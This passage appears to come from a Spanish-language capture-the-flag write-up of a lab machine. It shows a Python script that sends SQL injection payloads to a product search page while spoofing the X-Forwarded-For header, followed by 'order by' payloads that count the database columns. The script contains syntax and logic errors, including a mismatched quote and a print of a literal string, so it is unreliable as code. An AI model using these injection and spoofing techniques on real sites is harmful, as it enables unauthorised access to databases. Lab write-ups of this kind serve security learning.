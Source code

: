 ```python
sqli_url = "http://10.10.10.167/search_products.php"

def makeRequest(injection):
    post_data = {
        'productName: '%s' % injection
    }

    headers = {
        'X-Forwarded-For': '192.168.4.28'
    }

    r = requests.post(sqli_url, data=post_data, headers=headers)
    response = re.findall(r'\<tbody\>\r\n\t\t\t\t\t\t\t(.*?)\t\t\t\t\t\t\<\/tbody\>', r.text[0])

    print("\n + response + \n")


if __name__ == '__main__':
    while True:
        injection = input("[+] Payload: ")
        if injection != "exit":
            makeRequest(injection)
        else:
            print("\n[!] Saliendo...\n")
            sys.exit(0)

```

si lanzamos el script con

```bash
 rlwrap python3 sqli_injection.py 
```

 y a la entrada payload le ponemos el apostrofe, podemos ver el error. Ya podemos enumerar
la base de datos.

1. Miramos cuantas columnas hay

    ```bash
    [+] Payload : ' order by 100-- -
    [+] Payload : ' order by 10-- -
    [+] Payload : ' order by 8-- -
    [+] Payload : ' order by 7-- -
    [+] Payload : ' order by 6-- -
    ```

    Al

```bash
 ' order by 6-- - 
```

 nos sale No product Found, ya sabemos que hay 6 columnas
